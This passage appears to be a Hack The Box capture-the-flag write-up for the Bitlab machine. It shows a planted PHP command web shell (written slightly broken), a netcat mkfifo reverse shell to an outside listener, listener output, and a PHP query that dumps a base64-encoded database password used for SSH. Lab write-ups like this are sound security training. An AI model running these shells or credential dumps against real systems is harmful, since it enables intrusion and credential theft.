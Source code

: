 After logging in using this creds,I found two projetcs profile and developer
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/bitlab/index.png)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/bitlab/developer.png)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/bitlab/profile.png)

In here I created a simple cmd shell.

```
<?php ($_REQUEST['cmd']); ?>
```
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/bitlab/shell.png)

Then I check it with whoami cmd,it worked so let’s grab the reverse shell

I used this reverse shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
from pentest monkey

then got the reverse shell as www-data

```
root@ch4n:~/HTB/bitlab#nc -lnvp 1234           
Connection from 10.10.10.114:40202
Linux bitlab 4.15.0-29-generic #31-Ubuntu SMP Tue Jul 17 15:39:52 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 15:17:39 up 5 min,  0 users,  load average: 0.75, 0.79, 0.42
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bitlab:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on bitlab:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
 
User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull
www-data@bitlab:/$
```
But I wasnt not able to perform anything so I need to try with postrge sql.

```
php -r '$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");$result = pg_query($db_connection, "SELECT * FROM profiles");print_r(pg_fetch_all($result));'
```

```
Array
(
    [0] => Array
        (
            [id] => 1
            [username] => clave
            [password] => c3NoLXN0cjBuZy1wQHNz==
        )

)
```
then we got the user and pass fort ssh..
I decoded this base64 string then login to ssh.
```
 root@ch4n:~# echo -n c3NoLXN0cjBuZy1wQHNz==| base64 -d
```